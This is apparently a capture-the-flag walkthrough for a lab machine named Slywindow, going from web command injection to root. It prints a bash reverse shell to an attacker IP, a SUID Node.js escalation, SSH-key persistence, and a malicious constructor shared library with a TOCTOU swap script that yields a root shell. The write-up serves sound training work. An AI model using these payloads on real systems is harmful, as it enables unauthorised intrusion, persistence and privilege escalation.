

On the attacking machine, we open a netcat listener on port 447 to wait for the reverse connection.

```bash
nc -lvnp 447
```

We generate a reverse shell with our attacking machine's IP, encode it in URL and inject it into the `search_location` parameter, using the appropriate syntax to achieve remote command execution.

```bash
bash -c 'bash -i >& /dev/tcp/10.0.2.7/447 0>&1'
```

We obtain access to an interactive shell on the target server.



## Lateral Movement to User tocu

We stabilize the shell to facilitate its use and enumerate the users present in the system, identifying `tocu` and `root`.

```bash
www-data@slywindow:/var/www/html$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
tocu:x:1000:1000:tocu,,,:/home/tocu:/bin/bash
```

We enumerate files with the SUID bit enabled to identify possible privilege escalation vectors.

```bash
find / -perm -4000 2> /dev/null
```

```bash
www-data@slywindow:/dev/shm$ find / -perm -4000 2> /dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/mount
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/umount
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/chfn
/opt/backup/backup_utility
/opt/loginandvisit/tocunode
```

We identify two potentially interesting binaries. Upon analyzing both to determine their functionality, we find that we do not have execution permissions on `/opt/backup/backup_utility`, but we can execute `/opt/loginandvisit/tocunode`.

```bash
www-data@slywindow:/dev/shm$ ls -lh /opt/loginandvisit/tocunode
-rwsr-sr-x 1 tocu tocu 116M Jul 30 20:44 /opt/loginandvisit/tocunode
www-data@slywindow:/dev/shm$ /opt/loginandvisit/tocunode  
Welcome to Node.js v22.17.1.
Type ".help" for more information.
> 
(To exit, press Ctrl+C again or Ctrl+D or type .exit)
> 
www-data@slywindow:/dev/shm$ /opt/loginandvisit/tocunode --version
v22.17.1
```

This is a copy of Node.js owned by user `tocu` with the SUID bit enabled. Consulting GTFOBins, we identify a technique to leverage this binary and escalate privileges, gaining access as user `tocu`.

```bash
/opt/loginandvisit/tocunode -e 'require("child_process").spawn("/bin/bash", ["-p"], {stdio: [0, 1, 2]})'
```

After exploiting the Node.js SUID binary, we get a shell as user `tocu`, which allows us to access and read the flag located in `user.txt`.



We generate an SSH public key (`~/.ssh/id_ed25519.pub` if it doesn't exist) and add it to the user `tocu`'s `authorized_keys` file to obtain interactive and persistent access via shell with their privileges.

```bash
mkdir /home/tocu/.ssh
echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC69nOYDcXfzkVCiMn7FaJW2O3fnFKvMzClvoa/CxOr3 kali@kali' > /home/tocu/.ssh/authorized_keys
```

and access via SSH without needing a password, thus ensuring persistent access to the system.

```bash
ssh tocu@slywindow.nyx
```



## Privilege Escalation from tocu to root

User `tocu` belongs to the `backupgrp` group. When listing the files associated with this group, we identify the binary `/opt/backup/backup_utility`, which we previously could not execute, but now can thanks to our new privileges. This binary has the SUID bit set, allowing its execution with root privileges.

In the same directory is the library `backup_plugin.so`, on which we have write permissions, opening up the possibility of manipulating its behavior during the execution of the SUID binary.

```bash
tocu@slywindow:~$ ls -la  /opt/backup/
total 44
drwxrwxrwx 2 root root       4096 Jul 30 20:36 .
drwxr-xr-x 4 root root       4096 Jul 30 14:57 ..
-rw-r--r-- 1 root root      16216 Jul 12 04:19 backup_plugin.so
-rwsr-x--- 1 root backupgrp 17520 Jul 12 04:19 backup_utility
```

If we execute the binary from a directory other than `/opt/backup/`, it fails because it cannot locate the library necessary for its operation.

```bash
tocu@slywindow:~$ /opt/backup/backup_utility
=== Advanced Backup Utility v2.1 (Secure Version) ===
Source: /var/www/html
Destination: /backups

Initializing backup system...
Performing security checks...
Verifying backup plugin integrity...
Error opening file: No such file or directory
Aborting backup due to plugin verification failure.
```

However, when executing it from the `/opt/backup/` directory, the binary correctly locates the library and executes showing the expected output.

```bash
tocu@slywindow:~$ cd /opt/backup
tocu@slywindow:/opt/backup$ ./backup_utility 
=== Advanced Backup Utility v2.1 (Secure Version) ===
Source: /var/www/html
Destination: /backups

Initializing backup system...
Performing security checks...
Verifying backup plugin integrity...
Plugin hash: 8b3ce16b337842c8a12f48155ec827ec
Plugin verification successful.

Preparing backup environment...
Source directory found: /var/www/html
Scanning source directory contents...
Found file: small-window.jpg
Found file: index.html
Found file: admin.php
Total files to backup: 3

Finalizing backup preparation...
Ready to start backup process...

Starting backup process...
Loading backup plugin...
Executing backup operation...
Starting backup process...
Source: /var/www/html
Destination: /backups
Backed up: /var/www/html/small-window.jpg
Backed up: /var/www/html/index.html
Backed up: /var/www/html/admin.php
Backup completed successfully

Backup operation completed successfully.
```

The program performs a backup of the public web directory `/var/www/html` to the `/backups` path. For this, it uses a backup plugin whose integrity it verifies by showing the plugin's hash. When calculating the MD5 hash of the `backup_plugin.so` library, we verify that it matches exactly with the value shown by the binary.

```bash
tocu@slywindow:/opt/backup$ md5sum backup_plugin.so
8b3ce16b337842c8a12f48155ec827ec  backup_plugin.so
```

We transfer both files to our attacking machine by executing the following command:

```bash
scp tocu@10.0.2.11:/opt/backup/* .
```

We analyze the security protections present in the binaries using the `checksec` tool.

```bash
checksec --file ./backup_utility
```

```bash
checksec --file ./backup_plugin.so
```



Both binaries have most security protections enabled, but they have not been "stripped". This means that symbols (function and variable names) remain in the binary, which significantly facilitates their analysis and decompilation.

To examine the binaries without installing additional tools locally, we resort to the web service https://dogbolt.org, which allows disassembling and decompiling binaries using various recognized decompilers.



Below is shown the `main` function decompiled using the `angr` decompiler through dogbolt.org, which facilitates the analysis of the binary's execution flow.

```c++
int main()
{
    struct stat v0[2];  // [bp-0xc8]
    unsigned int v2;  // eax
    unsigned int v3;  // eax

    puts("=== Advanced Backup Utility v2.1 (Secure Version) ===");
    __printf_chk(1, "Source: %s\n", "/var/www/html");
    __printf_chk(1, "Destination: %s\n", "/backups");
    putchar(10);
    puts("Initializing backup system...");
    puts("Performing security checks...");
    if ((int)verify_plugin_integrity("./backup_plugin.so"))
    {
        puts("\nPreparing backup environment...");
        v2 = stat("/var/www/html", &v0);
        if (!v2)
        {
            __printf_chk(1, "Source directory found: %s\n", "/var/www/html");
            puts("Scanning source directory contents...");
            v3 = scan_directory_safely("/var/www/html");
            if (v3 >= 0)
            {
                __printf_chk(1, "Total files to backup: %d\n", v3);
                if (v3)
                {
                    puts("\nFinalizing backup preparation...");
                    puts("Ready to start backup process...");
                    puts("\nStarting backup process...");
                    if ((int)perform_backup("./backup_plugin.so", "/var/www/html", "/backups"))
                    {
                        puts("\nBackup operation completed successfully.");
                        return v2;
                    }
                    puts("Backup operation failed.");
                }
                else
                {
                    puts("Warning: No files found in source directory.");
                    __printf_chk(1, "Add some files to %s before running the backup.\n", "/var/www/html");
                }
            }
            else
            {
                __printf_chk(1, "Error: Cannot access source directory: %s\n", "/var/www/html");
            }
        }
        else
        {
            __printf_chk(1, "Error: Source directory does not exist: %s\n", "/var/www/html");
            puts("Please create the source directory and add files to backup.");
        }
    }
    else
    {
        puts("Aborting backup due to plugin verification failure.");
    }
    return 1;
}
```

When executing the binary, we observe several of the messages it prints during its operation. Analyzing the flow, we identify that the `verify_plugin_integrity` function verifies the MD5 hash of the `./backup_plugin.so` library (located in the same directory as the binary). If the hash does not match, execution stops.

Next, the `scan_directory_safely` function traverses all files present in `/var/www/html`. Finally, through `perform_backup`, the program loads the library and uses it to perform the backup of the files, which can be confirmed by decompiling `backup_plugin.so`.

On the server, we have permissions to modify `backup_plugin.so`, but the binary validates its hash before loading it; if we alter it before the check, the change will be detected. Therefore, it is essential to understand the exact flow of the program:

1. Verifies the hash of `backup_plugin.so`; if not valid, terminates execution.
2. Scans the files in `/var/www/html`.
3. Loads the `backup_plugin.so` library and executes the backup.

If we manage to modify the library just after the hash verification (step 1) and before it is loaded (step 3), the binary will not detect the change, since the check was performed previously. This scenario is a classic TOCTOU (Time Of Check to Time Of Use) attack: the TOC occurs in step 1, the TOU in step 3, and step 2 represents our window of opportunity to replace the library during execution.

To measure the time available to perform the replacement, we use the `inotifywait` tool on the server. We open two terminals with user `tocu`; in one of them we execute the following script:

```bash
inotifywait -m /opt/backup/backup_plugin.so | while read action; do echo "$(date '+%H:%M:%S.%3N') - $action"; done
```

In the second terminal we launch the execution of the vulnerable `backup_utility` binary.

```bash
cd /opt/backup/ && ./backup_utility
```



We observe that the window to replace the library is extremely small, only 2 to 3 milliseconds. However, if we increase the number of files in the `/var/www/html` directory, the scan slows down and, consequently, the available time window to execute the TOCTOU attack expands.

To simulate this scenario, we generate 9000 files in the target directory using the following command:

```bash
touch /var/www/html/file{0001..9000}.txt
```

and repeat the test to observe the behavior under these new conditions.



We verify that the window of opportunity to perform the TOCTOU attack has increased significantly.


A `backup_plugin.c` file is generated with the following code, whose purpose is to obtain a shell when loaded as a shared library.

```c
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>

void inject()__attribute__((constructor));

void inject()
{
    setuid(0);
    setgid(0);
    system("/bin/bash");
}
```

We compile the source code to obtain a malicious shared library called `backup_plugin_bad.so`.

```bash
gcc -shared -fPIC -o backup_plugin_bad.so backup_plugin.c  
```

Next, we transfer the malicious library to the victim server. From the attacking machine, located in the directory where the library was compiled, we execute:

```bash
scp backup_plugin_bad.so tocu@slywindow.nyx:/opt/backup
```

In parallel, on the server, we develop a bash script that automates the replacement of the legitimate library with the malicious version at the precise moment to maximize the probability of attack success.

```bash
#!/usr/bin/env bash
# toctou.sh

DIR="/opt/backup"
ORIG="$DIR/backup_plugin.so"
BAD="$DIR/backup_plugin_bad.so"
OK="$DIR/backup_plugin_ok.so"

# Espera al PRIMER cierre (lectura o escritura) y termina
inotifywait -qq -e close_write -e close_nowrite "$ORIG"

# Renombra lo más rápido posible (dos syscalls rename(2) atómicas)
mv "$ORIG" "$OK"    # guarda la copia buena
mv "$BAD"  "$ORIG"  # coloca la versión _bad en su lugar
```

Two terminals must be opened as user tocu on the server. In the first one, execution permissions are granted to the `toctou.sh` script and it is executed.

```bash
chmod +x ./toctou.sh 
./toctou.sh 
```

In the second terminal, we execute the `./backup_utility` binary from the `/opt/backup` directory.

By exploiting the race condition between the verification (Time-Of-Check, TOC) and use (Time-Of-Use, TOU) of the plugin, we manage to escalate privileges to root on the server by substituting the legitimate library with our malicious version at the precise moment.



TOCTOU (Time-Of-Check to Time-Of-Use) attacks can be exploited in various scenarios, especially when there is an opportunity to modify a resource between the moment its state is verified and the moment it is used by the system. In this challenge, the attack is used to bypass the integrity check of a library by substituting it with a malicious version just before the program loads it.

As a result, we manage to access and read the root.txt flag.

```bash
cat /root/root.txt
```

This has been the technical analysis of the Slywindow machine.
